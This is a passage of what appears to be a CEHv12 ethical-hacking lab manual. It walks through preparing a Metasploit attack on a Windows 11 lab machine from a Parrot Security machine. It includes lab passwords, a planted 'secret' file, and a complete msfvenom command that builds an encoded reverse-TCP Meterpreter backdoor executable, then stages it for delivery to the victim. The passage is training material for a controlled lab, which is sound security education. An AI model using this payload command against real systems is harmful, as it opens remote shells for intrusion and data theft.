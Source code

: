 Here, we will hack the Windows machine using Metasploit and further perform post-exploitation using Meterpreter.

1. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine. Restart the machine.
2. Click **Ctrl+Alt+Del** , by default, **Admin** user profile is selected, type **Pa$$w0rd** to enter the password in the Password field and press
    **Enter** to login.
3. Create a text file named **Secret.txt** ; write something in this file and save it in the location **C:\Users\Admin\Downloads**.

```
Note: In This task, the Secret.txt file contains the text “ My credit card account number is 123456789. ”.
```
### 


4. Click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine and launch a **Terminal** window.
5. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
6. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
7. Now, type **cd** and press **Enter** to jump to the root directory.

### 


8. Type the command **msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b**
    **"\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe** and press **Enter**.

```
Note: Here, the localhost IP address is 10.10.1.13 (the Parrot Security machine).
```
### 


9. This will generate **Backdoor.exe** , a malicious file, on **/home/attacker/Desktop** , as shown in the screenshot.

```
Note: To navigate to the Desktop , click Places from the top-section of the Desktop and click Home Folder from the drop-down
options. The attacker window appears, click Desktop.
```
### 


10. Now, you need to share **Backdoor.exe** with the target machine (in This task, **Windows 11** ).
11. In the previous lab, we created a directory or shared folder ( **share** ) at the location ( **/var/www/html** ) and with the required access
    permission. We will use the same directory or shared folder ( **share** ) to share **Backdoor.exe** with the victim machine.
